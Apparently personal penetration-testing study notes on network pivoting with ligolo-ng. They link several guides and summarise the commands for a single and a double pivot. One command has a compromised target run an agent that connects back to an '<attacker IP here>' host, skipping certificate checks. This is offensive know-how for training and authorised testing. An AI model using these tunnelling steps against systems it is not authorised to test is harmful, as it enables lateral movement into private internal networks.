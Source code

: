 # Pivoting

{% embed url="https://www.reddit.com/r/oscp/comments/1akvtwe/ligolo_chisel_and_painfully_slow_nmap_scans/" fullWidth="false" %}

{% embed url="https://medium.com/@raphaeltzy13/pivoting-with-ligolo-active-directory-82a86d739409" %}

{% embed url="https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16" %}
finish revshells and callback section
{% endembed %}

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/" %}
In this one, for double pivot, first session is closed and new direct link is made with machine 2 and kali
{% endembed %}

{% embed url="https://medium.com/@Thigh_GoD/ligolo-ng-finally-adds-local-port-forwarding-5bf9b19609f9" %}
Add 240.0.0.1 to ip route instead of target IP, all ports will be forwarded to this IP eg. 240.0.0.1:8080 will show the website hosted on target which wasn't accessible earlier
{% endembed %}

### Summary

```
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ligolo -selfcert -laddr 0.0.0.0:443 
#Accepts connections at port 443

TARGET
.\agent.exe -connect <attacker IP here>:443 -ignore-cert

KALI
session
1
ifconfig
add IP of internal network to our route
NEW TAB
sudo ip route add xxx.xxx.xxx.0/24 dev ligolo
ip route list
BACK TO LIGOLO
start
```

#### Double Pivot

```
EXISTING SESSION
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list
./agent.exe -connect <IP of First Pivot Point>:11601 -ignore-cert
KALI
NEW TAB
sudo ip add route <New_Network> dev ligolo-double
session
2
tunnel_start --tun ligolo-double
```
